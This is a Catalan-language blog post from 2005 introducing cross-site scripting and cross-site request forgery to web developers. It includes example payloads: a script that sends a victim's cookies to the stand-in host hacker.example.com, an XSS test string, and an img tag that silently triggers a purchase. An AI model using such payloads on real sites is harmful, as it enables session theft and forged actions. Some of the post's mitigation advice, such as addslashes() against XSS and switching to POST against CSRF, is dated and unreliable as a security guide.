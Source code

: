 ```yaml
---
layout: post
title: Introducció a XSS i CSRF
date: 2005-08-29 17:08:02.000000000 +02:00
type: post
categories:
- security
tags: []
meta:
  tags: XSS CSRF security
permalink: "/2005/08/29/introduccio-a-xss-i-csrf/"
---
```

En aquest article intentaré explicar de forma bàsica en que consisteixen els atacs del tipus Cross Site Scripting (<acronym title="Cross Site Scripting">XSS</acronym>) i Cross Site Request Forgeries (<acronym title="Cross Site Request Forgeries">CSRF</acronym>, pronunciat "_sea surf_"), ja que tenir clar el concepte de <acronym title="Cross Site Scripting">XSS</acronym> és important per entendre el <acronym title="Cross Site Request Forgeries">CSRF</acronym>.

<!--more-->

### Cross Site Scripting

És possible explotar aquest tipus de vulnerabilitats degut a que el lloc web afectat no valida de forma correcta una entrada de dades procedent de l'exterior (comentaris fets en un blog, un email mostrat per un webmail...) que posteriorment és enviada a un altre client.

Per entendre que mostrar dades obtingudes de l'exterior a un altre usuari és perillós anem a veure un exemple. Aquest seria el codi HTML (simplificat) d'un formulari per enviar un comentari a un blog:

```
\<form action="/comentari.php" method="post"\> Nom: \<input type="text" name="nom" /\> \<textarea name="comentari"\>\</textarea\> \<input type="submit" value="Enviar" /\> \</form\>
```

Aquí, el script `comentari.php` és el que rep les dades enviades pel client per POST i és el que s'encarregarà de tractar-les (per exemple, emmagatzemar-les en una base de dades). Si aquest script no _sanititza_ les dades introduïdes en el formulari, un usuari maliciós ens podria colar un comentari com aquest:

```
\<script\>alert('Tonto!');\</script\>
```

Això provoca la execució de codi JavaScript en el client que visita la pàgina que conté el comentari maliciós. Un exemple de codi per injectar una mica més perillós que l'anterior podria ser el següent:

```
\<script\>document.location = 'http://hacker.example.com/robar\_cookies.php?cookies=' + document.cookie\</script\>
```

En aquest exemple, l'atacant colocaria un script php en un servidor web que mitjançant la variable <tt>$_GET['cookies']</tt> capturaria les cookies de la víctima, donant lloc a la possibilitat de capturar-li la sessió o suplantar la seva identitat en el lloc vulnerable.

Per evitar aquest tipus d'atac s'han de validar totes les entrades de dades procedents de l'exterior, en el cas de l'exemple s'hagués pogut evitar aplicant la funció `addslashes()` sobre les variables que contenen dades que recollim de l'exterior (<tt>$_POST['nom']</tt> i <tt>$_POST['comentari']</tt>). Si el backend on s'emmagatzemen aquestes dades és una bbdd MySQL existeix també la funció `mysql_escape_string()`. Generalment es solen utilitzar també les funcions `htmlentities()`, `strip_tags()`, i `utf8_decode()` per _sanititzar_ les entrades de dades.

Una manera ràpida de comprovar si una aplicació web és vulnerable a un atac <acronym title="Cross Site Scripting">XSS</acronym> és injectant-li aquesta cadena de caràcters com a entrada, i visualitzar el codi font del que ens retorna l'aplicació. Generalment si veiem "`<XSS`" en lloc de "`&lt;XSS`" l'aplicació és vulnerable.

```
'';!--"\<XSS\>=&{()}
```

**Nota:** S'ha de reemplaçar el "`&`" per "`%26`" si s'està injectant el codi a través de <tt>HTTP GET</tt>.

### Cross Site Request Forgeries

En el cas dels atacs <acronym title="Cross Site Scripting">XSS</acronym> teníem 3 elements per a dur a terme l'atac:

- El lloc web vulnerable a XSS (servidor)
- L'atacant (client)
- La víctima (client)

En els atacs <acronym title="Cross Site Request Forgeries">CSRF</acronym> tindrem 4 elements:

- El lloc web vulnerable 1 (servidor)
- L'atacant (client)
- La víctima (client)
- El lloc web vulnerable 2 (servidor)

Els atacs <acronym title="Cross Site Request Forgeries">CSRF</acronym> són similars als <acronym title="Cross Site Scripting">XSS</acronym> però utilitzant a la vicitma (client) com a _pont_ per a que execute una acció sobre el lloc web vulnerable 2 (servidor), es a dir, l'atacant provoca que el client realitze una petició <tt>HTTP</tt> sobre el lloc web vulnerable 2 sense que el client se'n adoni quan visiti el lloc web vulnerable 1.

La forma més comú d'atacs <acronym title="Cross Site Request Forgeries">CSRF</acronym> utilitza el tag `img` de HTML per a provocar la petició HTTP maliciosa del client víctima sobre el servidor vulnerable 2. Anem a veure-ho amb un exemple com el d'abans, on el lloc web vulnerable 1 conté un formulari com el següent per enviar un comentari a un blog:

```
\<form action="/comentari.php" method="post"\> Nom: \<input type="text" name="nom" /\> \<textarea name="comentari"\>\</textarea\> \<input type="submit" value="Enviar" /\> \</form\>
```

Imaginem que el lloc web vulnerable 2, és una web molt popular de venda de llibres per internet, que té el següent formulari (codi simplificat) per comprar llibres:

```
\<form action="/compra\_llibre.php"\> ISBN: \<input type="text" name="llibre" /\> Quantitat: \<input type="text" name="quantitat" /\> \<input type="submit" value="Enviar" /\> \</form\>
```

**Nota:** Cal fixar-se en que aquest formulari no especifica l'atribut `method` en el tag `form`, per tant les variables del formulari s'enviaran amb una petició <tt>HTTP GET</tt>.

L'atacant envia un comentari amb el següent codi HTML, i el script `comentari.php` del blog (lloc vulnerable 1) no _sanititza_ la entrada, provocant que es mostri el codi tal qual l'ha introduït l'atacant als posteriors clients que visitaran la pàgina.

```
\<img src="https://books.example.com/compra\_llibre.php?llibre=ISBN&quantitat=100"\>
```

Quan un client autenticat al lloc 2 (<tt>books.example.com</tt>) visiti el lloc 1 (<tt>blog.example.com</tt>) comprarà 100 llibres sense ni tan sols adonar-se'n de que els ha comprat.

Hi ha altes maneres més enginyoses de realitzar el mateix tipus d'atac, que fins i tot pot servir per saltar-se firewalls i executar codi sobre una aplicació web interna coneguda si la URL injectada és del tipus <tt>http://192.168.1.1/admin/post.php?...</tt>.

Protegir-se dels atacs <acronym title="Cross Site Request Forgeries">CSRF</acronym> és més difícil que protegir-se dels <acronym title="Cross Site Scripting">XSS</acronym>, generalment és recomanable utilitzar mètode <tt>POST</tt> en lloc de <tt>GET</tt> en els formularis. En el cas de <tt>books.example.com</tt> s'hauria d'utilitzar <tt>$_POST['llibre']</tt> i <tt>$_POST['quantitat']</tt> en lloc de <tt>$llibre</tt> i <tt>$quantitat</tt> si està el <tt>register_globals</tt> activat, i no utilitzar la variable <tt>$_REQUEST</tt> si està desactivat. El principal problema amb els atacs CSRF és que una petició maliciosa pot imitar l'enviament d'un formulari, per tant és bo implementar mètodes que ens asseguren que el formulari ha estat enviat des de la nostra pròpia pàgina per l'usuari que l'ha sol·licitat prèviament a l'enviament.

